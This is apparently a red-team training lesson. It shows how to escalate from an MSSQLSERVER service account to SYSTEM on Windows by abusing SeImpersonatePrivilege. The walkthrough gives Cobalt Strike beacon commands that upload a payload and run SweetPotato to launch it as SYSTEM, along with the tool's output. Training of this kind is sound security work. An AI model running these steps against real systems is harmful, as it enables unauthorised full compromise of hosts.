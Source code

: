 # Privilege Escalation

### SeImpersonatePrivilege <a href="#el_1744194912213_369" id="el_1744194912213_369"></a>

As we saw at the end of the last lesson, the lon-db-2 SQL instance is run under the context of a service account by the name **MSSQLSERVER**.

```batch
beacon> getuid
[*] You are NT Service\MSSQLSERVER
```

This is a type of local virtual account that can access network resources using the credentials of the computer account, but their local permissions on the computer itself is limited by design (i.e. they are not local admins).

However, these accounts do often have interesting token privileges that can be abused for privilege escalation.  This is not limited to MS SQL but can also be found on accounts that run other services, such as Internet Information Services (IIS).  Tools like Seatbelt, or even running `whoami /priv`, will return a list of token privileges that are enabled or available to be enabled.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/689b053e885bef17cb751cd9d5b08613.png" alt="" width="100%"><figcaption></figcaption></figure>

This can be exploited using a tool such as [SweetPotato](https://github.com/CCob/SweetPotato).  This works by creating a named pipe and coercing a SYSTEM process into connecting to it.  It then impersonates the access token of that SYSTEM process and uses it to spawn another arbitrary process as SYSTEM.  This effectively requires us to execute a program that exists on disk.

```batch
beacon> cd C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps
beacon> upload C:\Payloads\tcp-local_x64.exe
beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p "C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps\tcp-local_x64.exe"

SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
  EfsRpc built on EfsPotato by @zcgonvh and PetitPotam by @topotam
[+] Attempting NP impersonation using method PrintSpoofer to launch C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps\tcp-local_x64.exe
[+] Triggering notification on evil PIPE \\lon-db-2/pipe/a708be26-b7fe-44a6-a29a-74f2583980ec
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

beacon> connect localhost 1337
[+] established link to child beacon: 10.10.120.25
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
